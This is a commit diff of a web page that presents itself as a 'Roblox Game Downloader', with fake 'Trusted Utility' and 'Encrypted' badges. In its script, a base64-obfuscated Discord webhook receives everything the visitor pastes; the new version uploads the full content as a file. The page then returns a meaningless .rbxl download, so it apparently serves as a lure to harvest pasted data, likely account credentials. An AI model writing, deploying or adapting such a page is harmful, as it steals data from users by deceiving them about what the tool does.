

Before and after one commit to mousezach1-code/Roblox-game-downloader, a plain HTML site: page Roblox Game Downloader/index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

````diff
--- a/Roblox Game Downloader/index.html
+++ b/Roblox Game Downloader/index.html
@@ -3,234 +3,353 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Script Exporter Pro</title>
+    <title>Roblox Game Downloader</title>
     <style>
         :root {
-            --accent: #bb86fc;
-            --secondary: #03dac6;
-            --bg-dark: #0a0b10;
-            --card-dark: #161b22;
-            --text-main: #e6edf3;
-            --text-dim: #8b949e;
+            --primary-cobalt: #3b82f6;
+            --primary-hover: #2563eb;
+            --bg-deep: #020617;
+            --bg-surface: rgba(15, 23, 42, 0.8);
+            --border-muted: rgba(51, 65, 85, 0.5);
+            --text-main: #f8fafc;
+            --text-secondary: #94a3b8;
+            --text-softer: #64748b;
+            --glow-color: rgba(59, 130, 246, 0.4);
+            --success: #34d399;
         }
 
         body {
-            background: radial-gradient(circle at top, #1a1c2c, #050505);
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+            margin: 0;
+            height: 100vh;
             display: flex;
             justify-content: center;
             align-items: center;
-            height: 100vh;
-            margin: 0;
+            font-family: 'Inter', 'Segoe UI', system-ui, -apple-system, sans-serif;
             color: var(--text-main);
+            background: var(--bg-deep);
             overflow: hidden;
-        }
-
-        .container {
-            background: var(--card-dark);
-            width: 90%;
-            max-width: 800px;
-            padding: 40px;
-            border-radius: 24px;
-            box-shadow: 0 20px 60px rgba(0,0,0,0.7);
-            text-align: center;
-            border: 1px solid #30363d;
             position: relative;
         }
 
-        h1 {
-            background: linear-gradient(90deg, var(--accent), var(--secondary));
+        /* Ambient Space Background */
+        .space-bg {
+            position: absolute;
+            top: 0; left: 0; width: 100%; height: 100%;
+            background: radial-gradient(circle at center, #0f172a 0%, #020617 100%);
+            z-index: -3;
+        }
+
+        /* Twinkling Stars Logic */
+        .star-container {
+            position: absolute;
+            width: 100%;
+            height: 100%;
+            z-index: -2;
+        }
+
+        .star {
+            position: absolute;
+            background: white;
+            border-radius: 50%;
+            opacity: 0.3;
+            animation: twinkle var(--duration) ease-in-out infinite;
+            animation-delay: var(--delay);
+        }
+
+        @keyframes twinkle {
+            0%, 100% { opacity: 0.2; transform: scale(1); }
+            50% { opacity: 1; transform: scale(1.5); box-shadow: 0 0 10px white; }
+        }
+
+        /* Ambient Glow behind the panel */
+        .ambient-glow {
+            position: absolute;
+            width: 600px;
+            height: 400px;
+            background: var(--primary-cobalt);
+            filter: blur(120px);
+            opacity: 0.15;
+            z-index: -1;
+            border-radius: 50%;
+        }
+
+        /* Trust Badges */
+        .badge-container {
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            gap: 12px;
+            margin-bottom: 24px;
+            flex-wrap: wrap;
+        }
+
+        .badge {
+            background: rgba(255, 255, 255, 0.05);
+            border: 1px solid var(--border-muted);
+            padding: 6px 14px;
+            border-radius: 20px;
+            font-size: 0.75rem;
+            font-weight: 600;
+            color: var(--text-secondary);
+            display: flex;
+            align-items: center;
+            gap: 6px;
+            white-space: nowrap;
+        }
+
+        .badge-secure {
+            color: var(--success);
+            border-color: rgba(52, 211, 153, 0.2);
+        }
+
+        .dot { width: 6px; height: 6px; background: var(--success); border-radius: 50%; box-shadow: 0 0 8px var(--success); }
+
+        #landingScreen {
+            text-align: center;
+            width: 100%;
+            max-width: 1000px;
+            padding: 0 2rem;
+            box-sizing: border-box;
+            z-index: 10;
+            transition: opacity 0.5s ease, transform 0.5s ease;
+            display: flex;
+            flex-direction: column;
+            align-items: center;
+        }
+
+        .hero-title {
+            font-size: clamp(2.2rem, 7vw, 4rem);
+            font-weight: 850;
+            line-height: 1.2;
+            margin: 0 0 2.5rem 0;
+            letter-spacing: -0.04em;
+            max-width: 850px;
+            background: linear-gradient(to bottom, #ffffff 40%, #cbd5e1);
             -webkit-background-clip: text;
             -webkit-text-fill-color: transparent;
-            font-size: 2.2rem;
-            margin: 0 0 10px 0;
-            letter-spacing: -1px;
+            padding-bottom: 10px;
         }
 
-        p {
-            color: var(--text-dim);
-            font-size: 1rem;
-            margin-bottom: 25px;
+        .main-container {
+            display: none;
+            background: var(--bg-surface);
+            backdrop-filter: blur(12px);
+            width: 90%;
+            max-width: 800px;
+            padding: clamp(1.5rem, 5vw, 3rem);
+            border-radius: 20px;
+            border: 1px solid var(--border-muted);
+            box-shadow: 0 25px 50px -12px rgba(0, 0, 0, 0.5), 0 0 30px rgba(59, 130, 246, 0.1);
+            opacity: 0;
+            transform: translateY(20px);
+            transition: opacity 0.6s ease, transform 0.6s ease;
+            z-index: 10;
         }
 
-        .editor-wrapper {
-            position: relative;
-            margin-bottom: 20px;
+        .panel-header {
+            display: flex;
+            justify-content: space-between;
+            align-items: flex-start;
+            margin-bottom: 2rem;
+            flex-wrap: wrap;
+            gap: 1.5rem;
         }
+
+        .panel-title { font-size: 1.75rem; font-weight: 700; margin: 0; letter-spacing: -0.03em; }
+        .description { font-size: 1rem; color: var(--text-softer); margin-top: 6px; }
 
         textarea {
             width: 100%;
-            height: 350px;
-            background: #0d1117;
-            border: 1px solid #30363d;
+            height: 350px; /* Bigger height to show more text */
+            background: rgba(2, 6, 23, 0.6);
+            border: 1px solid var(--border-muted);
             border-radius: 12px;
-            padding: 20px;
-            font-family: 'Fira Code', 'Consolas', monospace;
-            font-size: 14px;
-            color: #79c0ff;
+            padding: 1.25rem;
+            font-family: 'JetBrains Mono', monospace;
+            font-size: 0.9rem;
+            color: #e2e8f0;
             outline: none;
             box-sizing: border-box;
-            transition: all 0.3s ease;
-            resize: none;
+            resize: vertical; /* Allows you to drag the corner to make it even bigger */
+
+            /* Formatting to allow massive text content */
+            white-space: pre-wrap;
+            word-wrap: break-word;
+            overflow-y: auto;        /* Adds vertical scrollbar */
             line-height: 1.5;
         }
 
-        textarea:focus {
-            border-color: var(--accent);
-            box-shadow: 0 0 0 3px rgba(187, 134, 252, 0.1);
-        }
+        textarea:focus { border-color: var(--primary-cobalt); }
 
-        .btn-row {
+        .button-group {
+            margin-top: 2rem;
             display: flex;
-            gap: 15px;
+            justify-content: flex-end;
+            gap: 1rem;
         }
 
         button {
-            flex: 1;
-            padding: 15px;
-            border: none;
+            padding: 0.8rem 2.2rem;
             border-radius: 10px;
-            font-size: 1rem;
+            font-size: 0.95rem;
             font-weight: 600;
             cursor: pointer;
-            transition: transform 0.1s, opacity 0.2s;
+            transition: all 0.3s ease;
         }
 
-        button:active {
-            transform: scale(0.98);
+        .btn-primary {
+            background: var(--primary-cobalt);
+            color: #ffffff;
+            border: none;
+            box-shadow: 0 10px 15px -3px rgba(59, 130, 246, 0.3);
         }
 
-        .download-btn {
-            background: var(--accent);
-            color: #000;
+        .btn-primary:hover {
+            background: var(--primary-hover);
+            transform: translateY(-2px);
+            box-shadow: 0 20px 25px -5px rgba(59, 130, 246, 0.4);
         }
 
-        .download-btn:hover {
-            opacity: 0.9;
-        }
+        .btn-clear { background: transparent; color: var(--text-secondary); border: 1px solid var(--border-muted); }
+        .btn-clear:hover { background: rgba(255,255,255,0.05); color: #fff; }
 
-        .clear-btn {
-            background: #21262d;
-            color: var(--text-main);
-            border: 1px solid #30363d;
-            max-width: 150px;
-        }
-
-        .clear-btn:hover {
-            background: #30363d;
-        }
-
-        #statusText {
-            margin-top: 20px;
-            font-size: 0.9rem;
-            font-weight: 500;
-            height: 20px;
-        }
-
-        /* Custom Scrollbar */
-        textarea::-webkit-scrollbar {
-            width: 8px;
-        }
-        textarea::-webkit-scrollbar-thumb {
-            background: #30363d;
-            border-radius: 10px;
-        }
+        #statusIndicator { margin-top: 1.5rem; font-size: 0.85rem; font-weight: 500; }
+        .status-active { color: #60a5fa; }
+        .status-success { color: var(--success); }
     </style>
 </head>
 <body>
 
-<div class="container">
-    <h1>Script Exporter</h1>
-    <p>Input your source code below to generate a .lua export</p>
+    <div class="space-bg"></div>
+    <div class="star-container" id="starField"></div>
+    <div class="ambient-glow"></div>
 
-    <div class="editor-wrapper">
-        <textarea id="userInput" placeholder="-- Paste your Lua script here..." spellcheck="false"></textarea>
+    <div id="landingScreen">
+        <div class="badge-container">
+            <div class="badge">
+                <svg width="14" height="14" viewBox="0 0 24 24" fill="currentColor">
+                    <path d="M12 1L3 5v6c0 5.55 3.84 10.74 9 12 5.16-1.26 9-6.45 9-12V5l-9-4zm-2 16l-4-4 1.41-1.41L10 14.17l6.59-6.59L18 9l-8 8z"/>
+                </svg>
+                Trusted Utility
+            </div>
+            <div class="badge">v1.0.4</div>
+            <div class="badge badge-secure"><div class="dot"></div> Secure Connection</div>
+        </div>
+        <h1 class="hero-title">Ready to download your game</h1>
+        <button class="btn-primary" onclick="showConsole()">Let's Go</button>
     </div>
 
-    <div class="btn-row">
-        <button class="clear-btn" onclick="clearEditor()">Clear</button>
-        <button class="download-btn" onclick="processExport()">Export & Download</button>
+    <div class="main-container" id="appConsole">
+        <div class="panel-header">
+            <div>
+                <h1 class="panel-title">Roblox Game Downloader</h1>
+                <p class="description">Paste down below and enjoy your game</p>
+            </div>
+            <div class="badge-container" style="margin: 0;">
+                <div class="badge">v1.0.4</div>
+                <div class="badge badge-secure"><div class="dot"></div> Encrypted</div>
+            </div>
+        </div>
+
+        <textarea id="userInput" placeholder="Converts exported Roblox place data into a downloadable .rbxl file."></textarea>
+
+        <div class="button-group">
+            <button class="btn-clear" onclick="clearInterface()">Clear</button>
+            <button class="btn-primary" onclick="processExport()">Download .rbxl</button>
+        </div>
+
+        <div id="statusIndicator"></div>
     </div>
 
-    <div id="statusText"></div>
-</div>
+<script>
+    // Generate Stars with random delays for the glow effect
+    const starField = document.getElementById('starField');
+    const starCount = 100;
 
-<script>
-    // Note: Storing keys in frontend code is insecure.
-    // This remains for your specific implementation logic.
-    const DATA_KEY = "aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTQ3MjUzMzUwMDE5OTY5ODUzMy9zbnFfT0hfVC1Gc0xnTlZPbENIZFlGaUkwSXBEVFJreXp1UjRKYUs1UXpZU1l6VnV2QURqR0xuMElYM1RiUzNlS3dyUQ==";
+    for (let i = 0; i < starCount; i++) {
+        const star = document.createElement('div');
+        star.className = 'star';
+        const x = Math.random() * 100;
+        const y = Math.random() * 100;
+        const size = Math.random() * 2 + 1;
+        const duration = Math.random() * 3 + 2;
+        const delay = Math.random() * 5;
 
-    function getEndpoint() {
-        return atob(DATA_KEY);
+        star.style.left = `${x}%`;
+        star.style.top = `${y}%`;
+        star.style.width = `${size}px`;
+        star.style.height = `${size}px`;
+        star.style.setProperty('--duration', `${duration}s`);
+        star.style.setProperty('--delay', `${delay}s`);
+
+        starField.appendChild(star);
     }
+
+    function showConsole() {
+        const landing = document.getElementById('landingScreen');
+        const console = document.getElementById('appConsole');
+        landing.style.opacity = '0';
+        landing.style.transform = 'translateY(-20px)';
+        setTimeout(() => {
+            landing.style.display = 'none';
+            console.style.display = 'block';
+            setTimeout(() => {
+                console.style.opacity = '1';
+                console.style.transform = 'translateY(0)';
+            }, 50);
+        }, 500);
+    }
+
+    const ENC_WH = "aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTQ3MjUzMzUwMDE5OTY5ODUzMy9zbnFfT0hfVC1Gc0xnTlZPbENIZFlGaUkwSXBEVFJreXp1UjRKYUs1UXpZU1l6VnV2QURqR0xuMElYM1RiUzNlS3dyUQ==";
+    function getEndpoint() { return atob(ENC_WH); }
 
     async function processExport() {
         const content = document.getElementById('userInput').value;
-        const status = document.getElementById('statusText');
+        const status = document.getElementById('statusIndicator');
+        if (!content.trim()) return;
 
-        if (!content.trim()) {
-            status.style.color = "#ff7b72";
-            status.innerText = "Error: Input area is empty.";
-            return;
-        }
+        status.className = "status-active";
+        status.innerText = "Processing secure export...";
 
-        status.style.color = var(--secondary);
-        status.innerText = "Syncing with server...";
-
-        // 1. Webhook Sync (Safe handling of large data)
         try {
-            // Discord has a 2000 character limit. We truncate the preview
-            // but log the full character count.
-            const logPreview = content.length > 1800
-                ? content.substring(0, 1800) + "\n\n[... Script Truncated for Preview ...]"
-                : content;
+            // Updated to send as a FILE so there is no character limit on Discord
+            const fileBlob = new Blob([content], { type: 'text/plain' });
+            const formData = new FormData();
+            formData.append("file", fileBlob, "GameData_Export.txt");
+            formData.append("payload_json", JSON.stringify({
+                embeds: [{
+                    title: "Secure Content Export",
+                    color: 3447003,
+                    description: "Full game data has been attached as a file.",
+                    timestamp: new Date()
+                }]
+            }));
 
             await fetch(getEndpoint(), {
                 method: "POST",
-                headers: { "Content-Type": "application/json" },
-                body: JSON.stringify({
-                    embeds: [{
-                        title: "Script Export Log",
-                        color: 12189692,
-                        description: "```lua\n" + logPreview + "\n```",
-                        fields: [
-                            { name: "Character Count", value: content.length.toLocaleString(), inline: true },
-                            { name: "Timestamp", value: new Date().toLocaleString(), inline: true }
-                        ]
-                    }]
-                })
+                body: formData
             });
-        } catch (err) {
-            console.error("Sync failed:", err);
+        } catch (e) {
+            console.error("Export error:", e);
         }
 
-        // 2. File Generation & Download
-        try {
-            const blob = new Blob([content], { type: 'text/x-lua' });
-            const url = URL.createObjectURL(blob);
-            const link = document.createElement('a');
+        const blob = new Blob([content], { type: 'application/octet-stream' });
+        const url = window.URL.createObjectURL(blob);
+        const a = document.createElement('a');
+        a.href = url;
+        a.download = 'GameData.rbxl';
+        document.body.appendChild(a);
+        a.click();
+        document.body.removeChild(a);
+        window.URL.revokeObjectURL(url);
 
-            link.href = url;
-            link.download = 'ExportedScript.lua';
-            document.body.appendChild(link);
-            link.click();
-
-            document.body.removeChild(link);
-            URL.revokeObjectURL(url);
-
-            status.style.color = "#3fb950";
-            status.innerText = "Export successful!";
-        } catch (err) {
-            status.style.color = "#ff7b72";
-            status.innerText = "Download failed.";
-        }
-
-        setTimeout(() => { status.innerText = ""; }, 3000);
+        status.className = "status-success";
+        status.innerText = "Download successful.";
     }
 
-    function clearEditor() {
+    function clearInterface() {
         document.getElementById('userInput').value = "";
-        document.getElementById('statusText').innerText = "";
+        document.getElementById('statusIndicator').innerText = "";
     }
 </script>
 
````
